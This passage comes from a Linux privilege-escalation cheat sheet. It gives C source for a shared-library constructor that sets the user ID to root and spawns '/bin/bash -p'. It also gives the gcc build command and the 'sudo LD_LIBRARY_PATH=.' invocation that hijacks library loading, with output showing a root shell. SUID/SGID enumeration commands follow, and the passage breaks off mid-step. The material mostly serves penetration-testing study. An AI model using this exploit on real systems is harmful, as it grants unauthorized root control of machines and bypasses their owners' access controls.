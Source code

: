 Create a file (library\_path.c) with the following code:

```c
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile library\_path.c into the correct `.so` file:

```bash
gcc -o <lib_name.so.1> -shared -fPIC library_path.c
```

Run the program using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the path where the code was compiled

```bash
$ sudo LD_LIBRARY_PATH=. <program_name>
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Sticky Bits and SUID/SGID&#x20;

### Sticky Bits and SUID/SGID Enumeration

```bash
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
```

### Known Exploits

SUID files are used by several programs to facilitate their operation. These SUID files, run as root, and can contain vulnerabilities that we can exploit for a root shell.&#x20;

#### Known Exploits Privilege Escalation

1.  Find SUID/SGID files on the target:

    ```
    $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    ```
2.  Find the version of the binary:
